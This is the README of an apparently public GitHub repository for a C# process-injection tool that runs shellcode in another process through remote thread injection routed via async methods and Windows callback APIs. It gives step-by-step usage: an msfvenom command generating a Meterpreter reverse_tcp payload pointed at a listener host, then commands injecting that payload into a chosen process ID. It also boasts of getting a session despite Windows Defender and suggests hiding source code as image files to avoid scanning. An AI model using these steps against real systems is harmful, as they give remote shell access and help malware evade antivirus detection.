# NativePayload_TiACBT
NativePayload_TiACBT  (Remote Thread Injection + C# Async Method + CallBack Functions Technique)
-------------
Note: These C# Codes Tested by .Net Framework 3.5 or 4.0 & 4.5 only ;) & i will Publish Article for these codes soon , in these code we have Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique CBT, in these Codes We have "CreateRemoteThread or NtCreateThreadEx" BUT the goal is Changing Code Behavior for Calling API Functions (Remote Thread Injection only), as you can see in these Pictures With API Monitor tool you can see what happened step by step. (i will publish article about this soon...)

as you can see in the Picture3, Code Behavior Detected by Windows Defender(update 2020/12/20) because of Payload for meterpreter BUT i had meterpreter Session  ¯\_(ツ)_/¯

--------------------------------------------
C# Codes: "New C# codes for Callback Functions will publish here soon..."
```diff
+    1. NativePayload_TiACBT.cs
+    2. NativePayload_TiACBT2.cs
```
you can upload your Code like "image/gif/png/jpeg" files instead "text" file,sometimes this is good idea to avoid using files directly as source code ;D , but still you need to upload source code with zip formats etc (with/without random pwd for each download) ;)

```diff
+    1. NativePayload_TiACBT.png
+    2. NativePayload_TiACBT2.png
```
--------------------------------------------

1. NativePayload_TiACBT.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA + EnumSystemLocalesA Native APIs)

 Note: NativePayload_TiACBT will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,CreateRemoteThread (all methods called via Async C# Method + Callback Functions ...)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT.exe [mode 1,2] [TPID] [PAYLOAD]
    example: NativePayload_TiACBT.exe 1 5930 "fc,48,00,87,00,...."
    example: NativePayload_TiACBT.exe 2 5930 "fc,48,00,87,00,...."
    

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT.png)

 -----------------------------------------------------------    
2. NativePayload_TiACBT2.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA Native API)

 Note: NativePayload_TiACBT2 will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,NtCreateThreadEx
 
 Note: in this code Method1 (OpenProcess) will call Method2 (VirtualAllocEx) & Method2 Will Call Method3 (WriteProcessMemory) & Method3 Will call Method4 (NtCreateThreadEx) and all methods called via Async C# Method + Callback Functions ...

 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT2.exe   [TPID] [PAYLOAD]
    example: NativePayload_TiACBT2.exe  4386 "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT2.png)

 --------------------------------------------    
 Note: as you can see in the Picture, Code Behavior Detected by Windows Defender(update 2020/12/20) because of Payload for meterpreter BUT i had meterpreter Session  ¯\_(ツ)_/¯

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/AV.png)

 --------------------------------------------    
 <p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FDamonMohammadbgher%2FNativePayload_TiACBT"/></a></p>
